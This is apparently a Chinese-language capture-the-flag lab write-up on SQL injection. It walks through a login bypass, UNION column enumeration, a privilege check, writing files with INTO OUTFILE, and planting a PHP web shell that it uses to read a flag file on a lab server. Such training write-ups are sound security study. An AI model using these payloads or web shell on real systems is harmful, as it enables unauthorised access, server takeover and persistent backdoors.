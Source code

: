 # SQL实验报告

## SQL Injection Fundamentals

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条。绕过权限进入页面。
```

```sql
' or 1=1 limit 1 --
```

![1](img/2.png)

```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不处理。
```

```sql
' UNION SELECT 1,2,3,4 -- 
```

![2](img/3.png)

```blank
3.通过尝试，发现union拼接列数为5。
```

```sql
' UNION SELECT 1,2,3,4,5 -- 
```

![3](img/4.png)

```blank
4.查询用户是否有权限，发现有权限。
```

```sql
CN' UNION SELECT 1, SUPER_PRIV, 3, 4, 5 FROM MYSQL.USER WHERE USER="ROOT"-- -
```

![4](img/5.png)

```blank
5.尝试写入文件，访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

![5](img/6.png)

```blank
6.写入shell.php文件，拿到Webshell。访问该文件，尝试执行命令。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

![6](img/7.png)

```blank
7.执行下列命令，获取系统/目录下的所有文件，发现有flag。
```

```bash
ls
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```

![7](img/8.png)

```blank
8.执行命令，获取flag。
flag:528d6d9cedc2c7aab146ef226e918396
```

```bash
cat /flag_cae1dadcd174.txt
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

### 结果截图

![10](img/10.png)

---
